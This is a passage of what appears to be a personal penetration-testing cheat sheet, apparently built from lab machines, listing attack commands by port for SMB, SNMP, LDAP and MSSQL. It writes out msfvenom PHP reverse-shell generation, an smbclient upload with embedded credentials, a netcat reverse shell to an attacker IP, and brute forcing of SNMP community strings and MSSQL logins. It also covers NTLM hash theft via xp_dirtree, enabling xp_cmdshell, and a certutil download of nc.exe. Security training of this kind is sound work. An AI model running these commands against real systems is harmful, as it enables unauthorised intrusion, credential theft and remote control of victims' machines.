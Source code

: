 - Exploitation Example:
    
        Connect, Upload and get shell via web:    
        (1: initial, unstable shell): msfvenom -p php/reverse_php LHOST=10.10.14.18 LPORT=4444 -o rev.php
        smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put rev.php' -> Visit in browser     
        (2: switch to stable shell w/ nc)
        smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /usr/share/windows-resources/binaries/nc.exe nc.exe'
        ##smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /home/user/simplephpwebshell.php cmd.php'
        In first shell: nc.exe 10.10.14.18 4445 -e cmd.exe
    
## 161 - SNMP:
- Enumerate:
        nmap -sV -p 161 --script=snmp-info <TARGET-SUBNET>
        snmpwalk -c public -v 1 10.10.10.116
        snmpwalk -v3 -l authNoPriv -u authOnlyUser -a MD5 -A MyPassword123 192.168.1.2
        snmp-check 192.168.1.2 -c public
        Script:  https://github.com/dheiland-r7/snmp:  `perl snmpbw.pl 10.10.10.241 public 2 4`
        SNMP v1/v2 wordlist:  /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt
        Users:  snmpwalk public -v1 192.168.X.XXX 1 |grep 77.1.2.25 |cut -d” “ -f4  \\  python /usr/share/doc/python-impacket-doc/examples/samrdump.py SNMP 192.168.X.XXX
- Probe with snmpwalk if we know the community string (often is 'public'):
    - mib tree:   `snmpwalk -c public -v1 -t 10 10.11.1.14`
    - windows users:   `snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25`
    - running windows processes:  `snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2`
    - installed software:   `snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2`
- Brute Force Community String:  `onesixtyone -c /usr/share/wordlists/SecLists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt <IP>`
## 389 - LDAP:
- Run Scans:  `nmap -n -sV --script "ldap* and not brute" <IP>`
- `ldapsearch -h <IP> -x -s base`
- `ldapsearch -h <IP> -x -D '<DOMAIN>\<USER>' -w '<PASSWORD>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"`
- GUI:  jxplorer
## 1433 - MSSQL:
- Scan:  `nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>`
- Brute Force:  `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u`  OR:  `msf > use auxiliary/admin/mssql/mssql_enum`
- With Creds:
    
        mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
        mssqlclient.py <USER>:<PASSWORD>@<IP>
        # Once logged in you can run queries:
        SQL> select @@ version;
        # Steal NTLM hash
        sudo smbserver.py -smb2support liodeus .
        SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat
        # Try to enable code execution
        SQL> enable_xp_cmdshell
        # Execute code
        SQL> xp_cmdshell whoami /all
        SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe